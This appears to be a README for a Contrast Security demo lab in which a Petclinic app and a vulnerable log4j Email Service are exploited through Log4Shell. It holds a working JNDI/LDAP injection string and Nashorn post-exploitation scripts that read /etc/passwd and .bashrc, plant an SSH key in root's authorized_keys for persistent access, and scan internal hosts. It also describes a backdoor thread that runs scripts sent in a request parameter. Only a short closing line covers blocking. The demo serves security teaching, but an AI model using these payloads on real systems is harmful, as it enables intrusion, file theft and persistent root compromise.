

## Contrast Configuration

Before Starting up, you will need to configure the agent, by setting the credentials in the contrast_security.yaml. DO NOT CHECK THIS IN TO GIT.
During the docker build process it will download the latest agent version.
Whether Assess or Protect are enabled are controlled by environment variables in the docker-compose.yaml file. This allows you to quickly enable/disable Assess/Protect without rebuilding the docker images.
Just change the values and restart ( docker-compose up ).

## Setup


Run the services up using docker ( from the root of the project )
```docker-compose up```

Then open a browser and access Petclinic
http://localhost:8080
Login as admin : password
Add a new Owner and add the following to the first or last name
```${jndi:ldap://log4shell-service:1389/jdk8adr}```
Once the owner is saved, you will be able to execute arbitrary code on the JVM running the EmailService.
To do this you can open the [Payload.html](Payload.html) on disk input code into the text box and click the button to execute the code.



The code needs to be nashorn script. Which is Javascript run on the JVM. The easiest way to generate is to use OpenAI/Gemini your preferred LLM and ask it to generate code.
Either ask it to generate code in Java Nashorn script to do something or ask it to rewrite existing Java code to nashorn.
The results will be saved to a file on EmailService under the static resources directory and available via http://localhost:8081/faq.html

### Examples
Below are some examples you can use.
#### File Read
```
var Files = Java.type("java.nio.file.Files");
var Paths = Java.type("java.nio.file.Paths");
var bytes = Files.readAllBytes(Paths.get("/etc/passwd"));
var content = new java.lang.String(bytes);
content;
```

The above will read the file /etc/passwd and make it available under faq.html
#### File Write
```
function writeFileFromBase64(base64String, filePath) {
  // Load Java classes
  var Files = Java.type("java.nio.file.Files");
  var Paths = Java.type("java.nio.file.Paths");
  var Base64 = Java.type("java.util.Base64");
  try {
    // Decode the Base64 string
    var decodedBytes = Base64.getDecoder().decode(base64String);
    // Write the decoded bytes to the file
    Files.write(Paths.get(filePath), decodedBytes);
    print("File written successfully to: " + filePath);
    return true;
  } catch (e) {
    // Handle potential exceptions (e.g., IOException)
    print("Error writing file: " + e.message);
    return false;
  }
}
// Example usage:
var base64Data = "c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFCQVFERmZKU2FCUWY4ak8yRjYyZkhJdjVibU16SHhoajJSa3JsdFBWeG9WazE3K3JMUTZqU3l5Mko4UENNSXdELzBPK25XMkI4UENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPUENNSXdELzBPK25XMkI3VytNamlqUzNCIG1hbGljaW91c0BleGFtcGxlLmNvbQo="; // Base64 encoded 
var outputFilePath = "/root/.ssh/authorized_keys"; 
writeFileFromBase64(base64Data, outputFilePath);
```
The above adds a malicious ssh key to the authorized_keys file. This would allow the attacker to ssh into the EmailService as root.

```
var Files = Java.type("java.nio.file.Files");
var Paths = Java.type("java.nio.file.Paths");
var bytes = Files.readAllBytes(Paths.get("/home/ubuntu/.bashrc"));
var content = new java.lang.String(bytes);
content;
```

Port Scanner
```
/*
 * This Nashorn script scans a given IP range and returns the result as text.
 * It checks if a port is open on each IP address in the range.
 */

// Define the IP range to scan
var startIp = "172.19.0.1";
var endIp = "172.19.0.12";

// Define the ports to scan
var ports = [22, 80, 443];

// Function to check if an IP address is reachable
function isReachable(ipAddress) {
  try {
    var process = java.lang.Runtime.getRuntime().exec("ping -c 1 " + ipAddress);
    var exitValue = process.waitFor();
    return exitValue == 0;
  } catch (e) {
    print("Error checking reachability: " + e.message);
    return false;
  }
}

// Function to check if a port is open on an IP address
function isPortOpen(ipAddress, port) {
  try {
    var socket = new java.net.Socket();
    socket.connect(new java.net.InetSocketAddress(ipAddress, port), 1000);
    socket.close();
    return true;
  } catch (e) {
    return false;
  }
}

// Function to scan an IP address for open ports
function scanIpAddress(ipAddress) {
  var result = "IP Address: " + ipAddress + "\n";
  if (isReachable(ipAddress)) {
    for (var i = 0; i < ports.length; i++) {
      var port = ports[i];
      if (isPortOpen(ipAddress, port)) {
        result += "  Port " + port + " is open\n";
      }
    }
  } else {
    result += "  Host is unreachable\n";
  }
  return result;
}

// Function to convert an IP address string to an integer
function ipToInt(ipAddress) {
  var parts = ipAddress.split(".");
  return (parseInt(parts[0]) << 24) |
         (parseInt(parts[1]) << 16) |
         (parseInt(parts[2]) << 8) |
         parseInt(parts[3]);
}

// Function to convert an integer to an IP address string
function intToIp(ipInt) {
  return ((ipInt >> 24) & 0xFF) + "." +
         ((ipInt >> 16) & 0xFF) + "." +
         ((ipInt >> 8) & 0xFF) + "." +
         (ipInt & 0xFF);
}

// Scan the IP range
var startIpInt = ipToInt(startIp);
var endIpInt = ipToInt(endIp);
var result = "";
for (var ipInt = startIpInt; ipInt <= endIpInt; ipInt++) {
  var ipAddress = intToIp(ipInt);
  var ipResult = scanIpAddress(ipAddress);
  print(ipResult);
  result += ipResult;
}

// Print the result
print(result);
result;
```

Once complete ( may take a minute ) the results will be available at http://localhost:8081/faq.html


## What Is Happening

When you send the payload to the Petclinic application via the Owner firstname/lastname the following occurs.
* Petclinic sends the Owner details to the Email Service
* The Email Service logs that information using a vulnerable version of log4j
* Log4j initiates a JNDI/LDAP connection to the Log4Shell service and downloads a class
* That class is executed within the Email Service, which in turn starts a thread, looking at incoming web requests for any that contain the parameter cac={base64 encoded nashorn script}, when found it
  * Executes that Script in the JVM
  * Saves the result to the the static resources directory of the web server. Under a file named faq.hml . This makes it available from the outside.

## How to Block
* This can be blocked by Protect by setting to BLOCK in the Email Service the log4shell or JNDI rules.


